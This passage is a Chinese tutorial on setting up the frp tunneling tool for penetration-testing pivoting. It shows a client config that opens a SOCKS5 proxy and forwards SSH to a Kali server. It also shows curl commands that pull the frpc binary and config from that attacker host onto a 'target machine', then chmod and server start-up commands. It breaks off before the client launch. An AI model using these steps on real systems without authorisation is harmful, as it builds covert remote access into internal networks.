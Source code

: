 frp 是一个专门用于内网穿透的工具，它能够帮助你从外部访问内部网络中的服务。以下是 frp 主要的用法和一些基本操作：

官网:[frp](https://gofrp.org/zh-cn/)
官方中文文档：[frp/README\_zh.md at dev · fatedier/frp · GitHub](https://github.com/fatedier/frp/blob/dev/README_zh.md)
### 1. 下载和安装

[Releases · fatedier/frp · GitHub](https://github.com/fatedier/frp/releases)

[Fetching Title#rhrl](https://github.com/fatedier/frp/releases/download/v0.53.2/frp_0.53.2_linux_amd64.tar.gz)

### 文件准备

对frpc.ini的内容进行修改

```
# frpc.ini
[common]
server_addr = 192.168.27.195
server_port = 7000

[http_proxy]
type = tcp
remote_port = 7777
plugin = socks5
frps.ini

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
```
`server_addr` 和 `server_port` 是你 frp 服务器的地址和端口，`[ssh]`和`[http_proxy]`部分指定了内网的 SSH 服务和代理功能。


将frpc和frpc.ini上传至目标机

```
curl -O http://192.168.27.195:8080/frpc 
curl -# -O http://192.168.27.195:8080/frpc.ini 
```

赋予权限
```
chmod +x frpc
```

### 启动

先在kali上执行服务端

```
./frps -c frps.ini
```

在目标机上执行客户端
